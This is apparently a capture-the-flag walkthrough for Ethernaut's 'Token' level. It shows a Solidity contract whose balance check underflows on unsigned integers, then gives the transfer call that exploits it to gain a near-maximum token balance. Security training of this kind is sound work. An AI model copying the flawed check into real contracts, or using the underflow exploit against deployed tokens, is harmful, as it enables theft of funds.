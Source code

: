 # [5. Token](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

This attack makes use of the integer overflow or integer underflow exploit. In fact, the statement `require(balances[msg.sender] - _value >= 0);` is completely wrong because the calculation is happening on unsigned integers! Of course, they will always be greater than or equal to 0.

We can't exploit the bug by sending money to ourselves, because the two lines will cancel out:

```solidity
balances[msg.sender] -= _value;
balances[_to] += _value;
```

Instead, we can just send some tokens to zero address `0x0000000000000000000000000000000000000000`. We have 20 tokens, so lets send 21 tokens to the zero address:

```js
await contract.transfer(
  "0x0000000000000000000000000000000000000000",
  21
)
```

Once this transaction is mined, we are basically rich in whatever this token is (we have 115792089237316195423570985008687907853269984665640564039457584007913129639935 of it to be exact). No need to worry about the burnt 21 tokens back there :)

If you REALLY worry about burning tokens, just create a contract and transfer there instead!